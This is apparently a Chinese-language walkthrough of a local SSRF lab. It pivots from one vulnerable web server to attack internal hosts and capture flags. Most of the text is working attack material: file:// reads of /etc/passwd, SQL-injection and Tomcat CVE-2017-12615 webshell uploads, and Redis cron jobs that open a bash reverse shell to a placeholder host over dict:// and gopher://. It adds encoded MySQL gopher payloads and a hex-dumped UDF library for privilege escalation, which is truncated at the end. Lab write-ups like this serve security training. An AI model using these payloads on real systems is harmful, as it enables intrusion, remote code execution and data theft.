


[TOC]

# 靶场拓扑设计


攻击流程，172.150.23.21 这个服务器的 Web 80 端口存在 SSRF 漏洞，并且 80 端口映射到了公网的 9080，此时攻击者通过这个 9080 端口可以借助 SSRF 漏洞发起对 172 目标内网的探测和攻击。

# 靶场搭建

```dockerfile
version: '3'

networks:
  ssrf_network:
    ipam:
      config:
        - subnet: 172.150.23.0/16
          gateway: 172.150.23.1

services: 
  ssrf_SSRF:
    image: ireina007/ssrf-hub:1_ssrf
    ports:
      - 9080:80
    networks:
      ssrf_network: 
        ipv4_address: 172.150.23.21
 
  ssrf_CodeExec: 
    image: ireina007/ssrf-hub:2_codeexec
    networks: 
      ssrf_network:
        ipv4_address: 172.150.23.22

  ssrf_SQLI:
    image: ireina007/ssrf-hub:3_sqli
    networks:
      ssrf_network:
        ipv4_address: 172.150.23.23

  ssrf_CommandExec:
    image: ireina007/ssrf-hub:4_commandexec
    networks:
      ssrf_network:
        ipv4_address: 172.150.23.24

  ssrf_XXE:
    image: ireina007/ssrf-hub:5_xxe
    networks:
      ssrf_network:
        ipv4_address: 172.150.23.25

  ssrf_Tomcat:
    image: ireina007/ssrf-hub:6_tomcat
    networks:
      ssrf_network:
        ipv4_address: 172.150.23.26

  ssrf_Redisunauth:
    image: ireina007/ssrf-hub:7_redisunauth
    networks:
      ssrf_network:
        ipv4_address: 172.150.23.27

  ssrf_Redisauth:
    image: ireina007/ssrf-hub:8_redisauth
    networks:
      ssrf_network:
        ipv4_address: 172.150.23.28

  ssrf_MySQL:
    image: ireina007/ssrf-hub:9_mysql
    networks:
      ssrf_network:
        ipv4_address: 172.150.23.29

  ssrf_FastGGI_nginx:
    image: ireina007/ssrf-hub:10_fastcgi_nginx
    links:
      - ssrf_FastGGI_fpm
    networks:
      ssrf_network:
        ipv4_address: 172.150.23.31

  ssrf_FastGGI_fpm:
    image: ireina007/ssrf-hub:10_fastcgi_fpm
    networks:
      ssrf_network:
        ipv4_address: 172.150.23.30
```


# x.x.x.x:9080 - 判断 SSRF 是否存在

能够对外发起网络请求的地方，就可能存在 SSRF。首先看下目标站点的功能，获取站点快照：


先尝试获取外网 URL 试试看，测试一下经典的 百度 robots.txt：


测试成功，网站请求了 Baidu 的 robots.txt 文件了，并将请求页面的内容回显到了网站前端中。那么接下来尝试获取内网 URL ，测试请求 127.0.0.1 ：


测试依然成功，网站请求了 127.0.0.1 的 80 端口 ，也就是当前浏览的界面，页面出现“套娃” 现象。 通过以上两次请求，已经基本上可以确定这个输入框就是SSRF 的漏洞点了，即没有对用户的输入进行过滤，导致可以用来发起任意的内网或者外网的请求。

# 172.015.23.21 - SSRF 获取本地信息

## FILE 协议获取本地信息

既然当前站点存在 SSRF 的话，可以尝试配合 file 协议来读取本地的文件信息，首先尝试使用 file 协议来读取 /etc/passwd 文件：

```
file:///etc/passwd
```


成功读取到了本地的文件信息，现在尝试来获取存在 SSRF 漏洞的本机内网 IP 地址信息，确认当前资产的网段信息：

```
file:///etc/hosts
```


可以判断当前机器的内网地址为 **172.150.23.21**，接下来就可以对这个内网资产段进行信息收集。

权限高的情况下还可以尝试读取 `/proc/net/arp` 或者 `/etc/network/interfaces` 来判断当前机器的网络情况


## flag1

```
file:///flag
```


# 172.150.23.1/24 - SSRF 探测内网端口

SSRF 常配合 DICT 协议探测内网端口开放情况，但不是所有的端口都可以被探测，一般只能探测出一些带 TCP 回显的端口，具体可以探测哪些端口需要自己动手去测试一下，BP 下使用迭代器模式爆破，设置好要爆破的 IP 和 端口即可批量探测出端口开放的信息：


通过爆破可以整理出端口的开放情况：

```none
172.150.23.21 - 80
172.150.23.22 - 80
172.150.23.23 - 80、3306
172.150.23.24 - 80
172.150.23.25 - 80
172.150.23.26 - 8080
172.150.23.27 - 6379
172.150.23.28 - 6379
172.150.23.29 - 80、3306
172.150.23.30 - 9000
172.150.23.31 - 80
```

对照下拓扑图，端口开放信息都是一一匹配的，信息收集完毕，接下来就开始只使用最外部的 SSRF 来打穿内网。

除了使用 DICT 协议探测端口以外，还可以使用正常的 HTTP 协议获取到内网中 Web 应用的信息情况。

# 172.150.23.22 - 代码注入

## 代码注入应用详情

通过直接启动指定的应用来分析，这样后面直接使用 SSRF 来攻击的话，思路就会更加清晰明

```
docker run -itd --name 2_codeexec --rm -P ssrf-hub:2_codeexec
```

启动测试容器 使用 -P 参数随机端口映射，新开一个终端来查看测试容器映射端口

```
docker ps -f name=2_codeexec
```


- index.php

一个正常的提示页面，啥都没有：


- phpinfo.php


- shell.php


一个 system 一句话木马：

## SSRF - 目录扫描

如果想要利用 SSRF 漏洞对内网 Web 资产进行目录扫描的话，使用传统的 dirsearch 等工具就不是很方便了，在这种场景下使用的是 Burpsuite 抓包，然后导入字典批量遍历路径参数，请求包如下：

```http
POST / HTTP/1.1
Host: web.default.com:9080
Content-Length: 42
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://web.default.com:9080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://web.default.com:9080/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

url=http://172.150.23.22/
```

使用 Burpsuite 自带的 Grep - Extract 可以快速地筛选页面正则匹配的结果，很明显这个 172.150.23.22 的内网站点下面还存在着 phpinfo.php 和 shell.php：


## SSRF - 代码注入

因为这个一句话 webshell 使用了 GET 来接受请求，所以可以直接使用 SSRF 的 HTTP 协议来发起 GET 请求，直接给 cmd 参数传入命令值，导致命令直接执行：

使用浏览器提交请求的话，空格得写成 `%20` 才可以顺利执行命令 ：


从 hosts 文件的结果可以看出，当前我们已经拿下了内网 172.150.23.22 这台机器的权限了。

如果从 BP 里面抓包请求的话，空格得写成 `%2520`，即两次 URL 编码才可以顺利执行命令：


## flag2

```
http://172.150.23.22/shell.php?cmd=cat%20%2Fflag
```


# 172.150.23.23 - SQL 注入

## SQL 注入应用详情

```
启动测试应用
docker run -itd --name 3_sqli --rm -P ssrf-hub:3_sqli
查看测试容器映射的端口
docker ps -f name=3_sqli
```


基础的联合查询注入，可以直接带出数据库的相关信息：

```
/?id=1'+and+1=2+union+select+user(),version(),3,database()+--+
```


同样通过联合查询也可以简单的查询出 flag 的值：

```
/?id=1'+and+1=2+union+select+user(),version(),3,(select * from flag_is_here)+--+
```


可以尝试通过 MySQL 的 `INTO DUMPFILE` 直接往网站的目录下写 shell，最终借助 SQL 注入的 UNION 注入来执行写 shell 的 SQL 语句 payload 如下：

```
/?id=1'+and+1=2+union+select+NULL,NULL,NULL,'<?php @eval($_GET["cmd"]);?>' INTO DUMPFILE '/var/www/html/1.php' +--+
```

成功写 shell 后，浏览器直接访问执行命令看看：


## SSRF - SQL 注入

利用 SSRF 来注入内网中存在 SQLI 的资产的话，和上一个小节的 GET 型注入差不多，只要注意一些编码细节即可。

SSRF 之基础的联合查询注入，可以直接带出数据库的相关信息，和正常注入差不多，只需要将空格进行**两次 URL 编码**即可

```
url=http%3A%2F%2F172.150.23.23%2F%3Fid%3D1%27%2Band%2B1%3D2%2Bunion%2Bselect%2Buser%28%29%2Cversion%28%29%2C3%2Cdatabase%28%29%2B--%2B
```


## flag3

同理直接注入出数据库中的 flag：

```
url=http%3A%2F%2F172.150.23.23%2F%3Fid%3D1%27%2Band%2B1%3D2%2Bunion%2Bselect%2Buser%28%29%2Cversion%28%29%2C3%2C%28select%2b*from%2bflag_is_here%29%2B--%2B
```


往网站的目录写通过 SQL 语句来写 shell：

```
url=http%3A%2F%2F172.150.23.23%2F%3Fid%3D1%27%2Band%2B1%3D2%2Bunion%2Bselect%2Buser%28%29%2Cversion%28%29%2C3%2C'<?php%2Bsystem($_GET[1]);?>'%2BINTO%2BDUMPFILE%2B'/var/www/html/1.php'%2B--%2B
```

写入 shell 成功后尝试直接来命令执行：


# 172.150.23.24 - 命令执行

## 命令执行应用详情

```
启动测试应用
docker run -itd --name 4_commandexec --rm -P ssrf-hub:4_commandexec
查看测试容器映射的端口
docker ps -f name=4_commandexec
```

通过 POST 方式攻击者可以随意利用 Linux 命令拼接符 ip 参数，从而导致任意命令执行：


## SSRF - 命令执行

这种场景和之前的攻击场景稍微不太一样，之前的代码注入和 SQL 注入都是直接通过 GET 方式来传递参数进行攻击的。

但是这个命令执行的场景是通过 POST 方式触发的，无法使用使用 SSRF 漏洞通过 HTTP 协议来传递 POST 数据。

这种情况下一般就得利用 gopher 协议来发起对内网应用的 POST 请求了，gopher 的基本请求格式如下：

```
gopher://shost>:sport>/sgopher-path>_＜TCP数据流>
```

gopher 协议是一个古老且强大的协议。

从请求格式可以看出来，可以传递最底层的 TCP 数据流。

因为 HTTP 协议也是属于 TCP 数据层的，所以通过 gopher 协议传递 HTTP 的 POST 请求也是轻而易举的。

首先来抓取正常情况下 POST 请求的数据包，删除掉 HTTP 请求的这一行：

```
Accept-Encoding: gzip, deflate
```

- 如果不删除的话，打出的 SSRF 请求会乱码，因为被两次 gzip 编码了。

接着在 Burpsuite 中将构造POST 数据包进行两次 URL 编码：


两次 URL 编码后的数据就最终的 TCP 数据流，最终 SSRF 完整的攻击请求的 POST 数据包如下：


## flag4


# 172.150.23.25 - XML 实体注入

## XXE 应用详情

```
启动测试应用
docker run -itd --name 5_xxe --rm -P ssrf-hub:5_xxe
查看测试容器映射的端口
docker ps -f name=5_xxe
```

本场景是一个基础的 XXE 外部实体注入场景。

登录的时候用户提交的 XML 数据，且服务器后端对 XML 数据解析并将结果输出，所以可以构造一个 XXE 读取本地的敏感信息：

```
<?xml version="1.0" encoding= "UTF-8"?>
<!DOCTYPE user [
<!ENTITY u SYSTEM "file:///etc/passwd" >]>
<user>
	<username>&u;</username>
	<password>2</password>
</user>
```


## SSRF - XXE

和上一个场景 172.150.23.24 的命令执行类似，这里 XXE 也是通过在 POST 数据包里面构造 Payload 来进行攻击的，所以依然先来抓取正常情况下 XXE 攻击的 POST 请求的数据包，删除掉 `Accept-Encoding` 这一行，然后使用 Burpsuite 对 POST 数据包进行两次 URL 编码：


两次 URL 编码后的数据就最终的 TCP 数据流，最终 SSRF 完整的攻击请求的 POST 数据包，

可以看到通过 SSRF 成功攻击了 172.150.23.25 的 XXE Web 应用，顺利执行了 `cat /etc/hosts` 的命令：


## flag5


# 172.150.23.26 - CVE-2017-12615

## Tomcat 应用详情

```
启动测试应用
docker run -itd --name 6_tomcat --rm -P ssrf-hub:6_tomcat
查看测试容器映射的端口
docker ps -f name=6_tomcat
```

本场景是一个 Tomcat 中间件，存在 CVE-2017-12615 任意写文件漏洞

## SSRF - Tomcat(CVE-2017-12615)

和之前的场景类似，准备一个 JSP 一句话：

```jsp
<%
    String command = request.getParameter("cmd");
    if(command != null)
    {
        java.io.InputStream in=Runtime.getRuntime().exec(command).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1)
        {
            out.println(new String(b));
        }
        out.print("</pre>");
    } else {
        out.print("format: xxx.jsp?cmd=Command");
    }
%>
```

将原本攻击的 POST 数据包进行修改，并进行URL编码


通过 SSRF 发起这个 POST 请求，返回 201 状态码表示成功写 shell：


接着通过 SSRF 发起对 shell.jsp 的 HTTP 请求，成功执行了 `cat /etc/hosts` 的命令：


## flag6


# 172.150.23.27 - Redis 未授权

## Redis unauth 应用详情

内网的 172.150.23.27 主机上的 6379 端口运行着未授权的 Redis 服务，系统没有 Web 服务（无法写 Shell），无 SSH 公私钥认证（无法写公钥），所以这里攻击思路只能是使用定时任务来进行攻击了。常规的攻击思路的主要命令如下：

```
# 清空 key
flushall

# 设置要操作的路径为定时任务目录
config set dir /var/spool/cron/

# 设置定时任务角色为 root
config set dbfilename root

# 设置定时任务内容
set x "\n* * * * * /bin/bash -i >& /dev/tcp/x.x.x.x/2333 0>&1\n"

# 保存操作
save
```

## SSRF - Redis unauth

SSRF 攻击的话并不能使用 redis-cli 来连接 Redis 进行攻击操作，未授权的情况下可以使用 dict 或者 gopher 协议来进行攻击，因为 gopher 协议构造比较繁琐，所以本场景建议直接使用 DICT 协议来攻击，效率会高很多，DICT 协议除了可以探测端口以外，另一个是攻击未授权的 Redis 服务，格式如下

```
dict://x.x.x.x:6379/<Redis 命令>
```


通过 SSRF 直接发起 DICT 请求，可以成功看到 Redis 返回执行完 info 命令后的结果信息，下面开始直接使用 dict 协议来创建定时任务来反弹 Shell:

```
# 清空 key
dict://172.150.23.27:6379/flushall

# 设置要操作的路径为定时任务目录
dict://172.150.23.27:6379/config set dir /var/spool/cron/

# 在定时任务目录下创建 root 的定时任务文件
dict://172.150.23.27:6379/config set dbfilename root

# 写入 Bash 反弹 shell 的 payload
dict://172.150.23.27:6379/set x "\n* * * * * /bin/bash -i >%26 /dev/tcp/x.x.x.x/2333 0>%261\n"

# 保存上述操作
dict://172.150.23.27:6379/save
```

- SSRF 传递的时候记得要把 `&` URL 编码为 `%26`，上面的操作最好再 BP 下抓包操作，防止浏览器传输的时候被 URL 打乱编码


## flag7

在目标系统上创建定时任务后，shell 也弹了出来，查看下 `cat /etc/hosts` 的确是 172.150.23.27 这台内网机器：


# 172.150.23.28 - Redis 有认证

## Redis auth 应用详情

该 172.150.23.28 主机运行着 Redis 服务，但是有密码验证，无法直接未授权执行命令



不过除了 6379 端口还开放了 80 端口，是一个LFI 本地文件包含，可以利用此来读取本地的文件内容


因为 Redis 密码记录在 redis.conf 配置文件中，结合这个文件包含漏洞点，那么这时来尝试借助文件包含漏洞来读取 redis 的配置文件信息，Redis 常见的配置文件路径如下：

```
/etc/redis.conf
/etc/redis/redis.conf
/usr/local/redis/etc/redis.conf
/opt/redis/ect/redis.conf
```


拿到密码的话就可以正常和 Redis 进行交互了：


## SSRF - Redis auth

首先借助目标系统的 80 端口上的文件包含拿到 Redis 的密码：P@ssw0rd


有密码的话先使用 dict 协议进行密码认证看看：


但是因为 dict 不支持多行命令的原因，这样就导致认证后的参数无法执行，所以 dict 协议理论上来说是没发攻击带认证的 Redis 服务的。

那么只能使用我们的老伙计 gopher 协议了，gopher 协议因为需要原生数据包，所以我们需要抓取到 Redis 的请求数据包。可以使用 Linux 自带的 socat 命令来进行本地的模拟抓取：

命令来进行本地的模拟抓取：

```bash
socat -v tcp-listen:4444,fork tcp-connect:127.0.0.1:6379
```

此时使用 redis-cli 连接本地的 4444 端口：

服务器接着会把 4444 端口的流量接受并转发给服务器的 6379 端口，然后认证后进行往网站目录下写入 shell 的操作：

```bash
# 认证 redis
127.0.0.1:4444> auth P@ssw0rd

# 清空 key
127.0.0.1:4444> flushall

# 设置要操作的路径为网站根目录
127.0.0.1:4444> config set dir /var/www/html

# 在网站目录下创建 shell.php 文件
127.0.0.1:4444> config set dbfilename shell.php

# 设置 shell.php 的内容
127.0.0.1:4444> set x "\n<?php eval($_GET[1]);?>\n"

# 保存上述操作
127.0.0.1:4444> save
```

与此同时我们还可以看到详细的数据包情况，下面来记录一下关键的流量情况：


可以看到 Redis 的流量并不难理解，可以根据上图橙色标记的注释来理解一下，接下来整理出关键的请求数据包如下：

```payload
*2
$4
auth
$8
P@ssw0rd
*1
$8
flushall
*3
$3
set
$1
1
$22


<?php system('cat /flag');?>


*4
$6
config
$3
set
$3
dir
$13
/var/www/html
*4
$6
config
$3
set
$10
dbfilename
$9
shell.php
*1
$4
save


```

可以看到每行都是以 `\r` 结尾的，但是 Redis 的协议是以 CRLF (`\r\n`) 结尾，所以转换的时候需要把 `\r` 转换为 `\r\n`，然后其他全部进行 两次 URL 编码，这里借助 BP 就很容易解决：


最后放到 SSRF 的漏洞点进行请求：


执行成功的话会在 /var/www/html 根目录下写入 shell.php 文件，那么下面借助 SSRF 漏洞来试试看：


## flag8

```
*2
$4
auth
$8
P@ssw0rd
*1
$8
flushall
*3
$3
set
$1
1
$29


<?php system($_GET[1]);?>


*4
$6
config
$3
set
$3
dir
$13
/var/www/html
*4
$6
config
$3
set
$10
dbfilename
$9
shell.php
*1
$4
save


```

使用burp进行两次URL编码


# 172.150.23.29 - MySQL 未授权

## MySQL 应用详情

MySQL 空密码可以登录，靶场在数据库下和系统下各放了一个 flag，通过 SSRF 可以和数据库进行交互，SSRF 进行 UDF 提权可以拿到系统下的 flag：



## SSRF - MySQL 未授权

MySQL 需要密码认证时，服务器先发送 salt 然后客户端使用 salt 加密密码然后验证；但是当无需密码认证时直接发送 TCP/IP 数据包即可。所以这种情况下是可以直接利用 SSRF 漏洞攻击 MySQL 的。因为使用 gopher 协议进行攻击需要原始的 MySQL 请求的 TCP 数据包，所以还是和攻击 Redis 应用一样，这里我们使用 tcpdump 来监听抓取 3306 的认证的原始数据包：

```
# lo 回环接口网卡 -w 报错 pcapng 数据包
tcpdump -i lo port 3306 -w mysql.pcapng
```

然后本地使用 MySQL 来执行一些测试命令：

```mysql
$ mysql -h127.0.0.1 -uroot -e "select * from flag.test union select user(),version();"
```

中止 tcpdump 使用 Wireshark 打开 `mysql.pcapng` 数据包，追踪 TCP 流 然后过滤出发给 3306 的数据：


保存为原始数据「Show data as `原始数据`」，并且整理成 1 行：

```
3c00000105a20f0000000001080000000000000000000000000000000000000000000000726f6f7400006d7973716c5f6e61746976655f70617373776f726400210000000373656c65637420404076657273696f6e5f636f6d6d656e74206c696d69742031360000000373656c656374202a2066726f6d20666c61672e7465737420756e696f6e2073656c656374207573657228292c76657273696f6e28290100000001
```

### 生成 gopher 数据流

然后使用如下的 Python3 脚本将数据转化为 url 编码：

```python
import sys

def results(s):
    a=[s[i:i+2] for i in range(0,len(s),2)]
    return "curl gopher://127.0.0.1:3306/_%"+"%".join(a)

if __name__=="__main__":
    s=sys.argv[1]
    print(results(s))
```

运行效果如下：


### SSRF - 查询数据库

本地 curl 请求这个 gopher 协议的数据包：

```
gopher://127.0.0.1:3306/_%3c%00%00%01%05%a2%0f%00%00%00%00%01%08%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%21%00%00%00%03%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%5f%63%6f%6d%6d%65%6e%74%20%6c%69%6d%69%74%20%31%36%00%00%00%03%73%65%6c%65%63%74%20%2a%20%66%72%6f%6d%20%66%6c%61%67%2e%74%65%73%74%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%75%73%65%72%28%29%2c%76%65%72%73%69%6f%6e%28%29%01%00%00%00%01
```


从图上可以看到 gopher 请求的数据包已经成功执行了，user () 和 数据库中的 flag 都可查询出来了。

### flag9_2


放入到 BP 中请求的话记得需要二次 URL 编码；

### SSRF - MySQL 提权(UDF提权)

SSRF 攻击 MySQL 仅仅查询数据意义不大，不如直接 UDF 提权然后反弹 shell 出来更加直接，下面尝试使用 SSRF 来 UDF 提权内网的 MySQL 应用。

构造payload需要抓包，过于繁琐，可以利用gopher payload自动生成工具

https://github.com/tarunkant/Gopherus

首先来寻找 MySQL 的插件目录，原生的 MySQL 命令如下：

```
show variables like '%plugin%';"
```

使用 Gopherus 来生成payload


```
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%20%00%00%00%03%73%68%6f%77%20%76%61%72%69%61%62%6c%65%73%20%6c%69%6b%65%20%27%25%70%6c%75%67%69%6e%25%27%3b%01%00%00%00%01
```

放入到 BP 中请求的话记得需要二次 URL 编码


拿到 MySQL 的插件目录为：`/usr/lib/mysql/plugin/`

查看MySQL是否有写文件权限

````mysql
show variables like "%secure_file%";
````

```
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%25%00%00%00%03%73%68%6f%77%20%76%61%72%69%61%62%6c%65%73%20%6c%69%6b%65%20%22%25%73%65%63%75%72%65%5f%66%69%6c%65%25%22%3b%01%00%00%00%01
```


如果是 MySQL >= 5.1 的版本，必须把 UDF 的动态链接库文件放置于 MySQL 安装目录下的 lib\plugin 文件夹下文件夹下才能创建自定义函数。

常用的工具 sqlmap 和 Metasploit 里面都自带了对应系统的动态链接库文件。

- **sqlmap 的 UDF 动态链接库文件位置**

  ```
  sqlmap根目录/data/udf/mysql
  ```

 sqlmap 中 自带这些动态链接库为了防止被误杀都经过编码处理过，不能被直接使用。

不过可以利用 sqlmap 自带的解码工具 cloak.py 来解码使用，cloak.py 的位置为：`/extra/cloak/cloak.py` ，解码方法如下：

```
# 查看当前目录情况
➜ pwd
/opt/homebrew/Cellar/sqlmap/1.7.9/libexec/extra/cloak

# 解码 32 位的 Linux 动态链接库
➜ python3 cloak.py -d -i ../../data/udf/mysql/linux/32/lib_mysqludf_sys.so_ -o lib_mysqludf_sys_32.so

# 解码 64 位的 Linux 动态链接库
➜ python3 cloak.py -d -i ../../data/udf/mysql/linux/64/lib_mysqludf_sys.so_ -o lib_mysqludf_sys_64.so

# 解码 32 位的 Windows 动态链接库
➜ python3 cloak.py -d -i ../../data/udf/mysql/windows/32/lib_mysqludf_sys.dll_ -o lib_mysqludf_sys_32.dll

# 解码 64 位的 Windows 动态链接库
➜ python3 cloak.py -d -i ../../data/udf/mysql/windows/64/lib_mysqludf_sys.dll_ -o lib_mysqludf_sys_64.dll

# 查看当前目录下的情况
➜ ls
README.txt              cloak.py                lib_mysqludf_sys_32.so  lib_mysqludf_sys_64.so
__init__.py             lib_mysqludf_sys_32.dll lib_mysqludf_sys_64.dll
```

将 lib_mysqludf_sys_64.so 转为十六进制

```
xxd -p lib_mysqludf_sys_64.so | tr -d '\n' > lib_mysqludf_sys_64.so.txt
```

写入动态连接库

```
mysql -h127.0.0.1 -u root -e "SELECT 0x7f454c4602010100000000000000000003003e0001000000d00c0000000000004000000000000000e8180000000000000000000040003800050040001a00190001000000050000000000000000000000000000000000000000000000000000001415000000000000141500000000000000002000000000000100000006000000181500000000000018152000000000001815200000000000700200000000000080020000000000000000200000000000020000000600000040150000000000004015200000000000401520000000000090010000000000009001000000000000080000000000000050e57464040000006412000000000000641200000000000064120000000000009c000000000000009c00000000000000040000000000000051e5746406000000000000000000000000000000000000000000000000000000000000000000000000000000000000000800000000000000250000002b0000001500000005000000280000001e000000000000000000000006000000000000000c00000000000000070000002a00000009000000210000000000000000000000270000000b0000002200000018000000240000000e00000000000000040000001d0000001600000000000000130000000000000000000000120000002300000010000000250000001a0000000f000000000000000000000000000000000000001b00000000000000030000000000000000000000000000000000000000000000000000002900000014000000000000001900000020000000000000000a00000011000000000000000000000000000000000000000d0000002600000017000000000000000800000000000000000000000000000000000000000000001f0000001c0000000000000000000000000000000000000000000000020000000000000011000000140000000200000007000000800803499119c4c93da4400398046883140000001600000017000000190000001b0000001d0000002000000022000000000000002300000000000000240000002500000027000000290000002a00000000000000ce2cc0ba673c7690ebd3ef0e78722788b98df10ed871581cc1e2f7dea868be12bbe3927c7e8b92cd1e7066a9c3f9bfba745bb073371974ec4345d5ecc5a62c1cc3138aff36ac68ae3b9fd4a0ac73d1c525681b320b5911feab5fbe120000000000000000000000000000000000000000000000000000000003000900a00b0000000000000000000000000000010000002000000000000000000000000000000000000000250000002000000000000000000000000000000000000000e0000000120000000000000000000000de01000000000000790100001200000000000000000000007700000000000000ba0000001200000000000000000000003504000000000000f5000000120000000000000000000000c2010000000000009e010000120000000000000000000000d900000000000000fb000000120000000000000000000000050000000000000016000000220000000000000000000000fe00000000000000cf000000120000000000000000000000ad00000000000000880100001200000000000000000000008000000000000000ab010000120000000000000000000000250100000000000010010000120000000000000000000000dc00000000000000c7000000120000000000000000000000c200000000000000b5000000120000000000000000000000cc02000000000000ed000000120000000000000000000000e802000000000000e70000001200000000000000000000009b00000000000000c200000012000000000000000000000028000000000000008001000012000b007a100000000000006e000000000000007500000012000b00a70d00000000000001000000000000001000000012000c00781100000000000000000000000000003f01000012000b001a100000000000002d000000000000001f01000012000900a00b0000000000000000000000000000c30100001000f1ff881720000000000000000000000000009600000012000b00ab0d00000000000001000000000000007001000012000b0066100000000000001400000000000000cf0100001000f1ff981720000000000000000000000000005600000012000b00a50d00000000000001000000000000000201000012000b002e0f0000000000002900000000000000a301000012000b00f71000000000000041000000000000003900000012000b00a40d00000000000001000000000000003201000012000b00ea0f0000000000003000000000000000bc0100001000f1ff881720000000000000000000000000006500000012000b00a60d00000000000001000000000000002501000012000b00800f0000000000006a000000000000008500000012000b00a80d00000000000003000000000000001701000012000b00570f00000000000029000000000000005501000012000b0047100000000000001f00000000000000a900000012000b00ac0d0000000000009a000000000000008f01000012000b00e8100000000000000f00000000000000d700000012000b00460e000000000000e800000000000000005f5f676d6f6e5f73746172745f5f005f66696e69005f5f6378615f66696e616c697a65005f4a765f5265676973746572436c6173736573006c69625f6d7973716c7564665f7379735f696e666f5f6465696e6974007379735f6765745f6465696e6974007379735f657865635f6465696e6974007379735f6576616c5f6465696e6974007379735f62696e6576616c5f696e6974007379735f62696e6576616c5f6465696e6974007379735f62696e6576616c00666f726b00737973636f6e66006d6d6170007374726e6370790077616974706964007379735f6576616c006d616c6c6f6300706f70656e007265616c6c6f630066676574730070636c6f7365007379735f6576616c5f696e697400737472637079007379735f657865635f696e6974007379735f7365745f696e6974007379735f6765745f696e6974006c69625f6d7973716c7564665f7379735f696e666f006c69625f6d7973716c7564665f7379735f696e666f5f696e6974007379735f657865630073797374656d007379735f73657400736574656e76007379735f7365745f6465696e69740066726565007379735f67657400676574656e76006c6962632e736f2e36005f6564617461005f5f6273735f7374617274005f656e6400474c4942435f322e322e35000000000000000000020002000200020002000200020002000200020002000200020002000200020001000100010001000100010001000100010001000100010001000100010001000100010001000100010001000100000001000100b20100001000000000000000751a690900000200d401000000000000801720000000000008000000000000008017200000000000d01620000000000006000000020000000000000000000000d81620000000000006000000030000000000000000000000e016200000000000060000000a00000000000000000000000017200000000000070000000400000000000000000000000817200000000000070000000500000000000000000000001017200000000000070000000600000000000000000000001817200000000000070000000700000000000000000000002017200000000000070000000800000000000000000000002817200000000000070000000900000000000000000000003017200000000000070000000a00000000000000000000003817200000000000070000000b00000000000000000000004017200000000000070000000c00000000000000000000004817200000000000070000000d00000000000000000000005017200000000000070000000e00000000000000000000005817200000000000070000000f00000000000000000000006017200000000000070000001000000000000000000000006817200000000000070000001100000000000000000000007017200000000000070000001200000000000000000000007817200000000000070000001300000000000000000000004883ec08e827010000e8c2010000e88d0500004883c408c3ff35320b2000ff25340b20000f1f4000ff25320b20006800000000e9e0ffffffff252a0b20006801000000e9d0ffffffff25220b20006802000000e9c0ffffffff251a0b20006803000000e9b0ffffffff25120b20006804000000e9a0ffffffff250a0b20006805000000e990ffffffff25020b20006806000000e980ffffffff25fa0a20006807000000e970ffffffff25f20a20006808000000e960ffffffff25ea0a20006809000000e950ffffffff25e20a2000680a000000e940ffffffff25da0a2000680b000000e930ffffffff25d20a2000680c000000e920ffffffff25ca0a2000680d000000e910ffffffff25c20a2000680e000000e900ffffffff25ba0a2000680f000000e9f0feffff00000000000000004883ec08488b05f50920004885c07402ffd04883c408c390909090909090909055803d900a2000004889e5415453756248833dd809200000740c488b3d6f0a2000e812ffffff488d05130820004c8d2504082000488b15650a20004c29e048c1f803488d58ff4839da73200f1f440000488d4201488905450a200041ff14c4488b153a0a20004839da72e5c605260a20000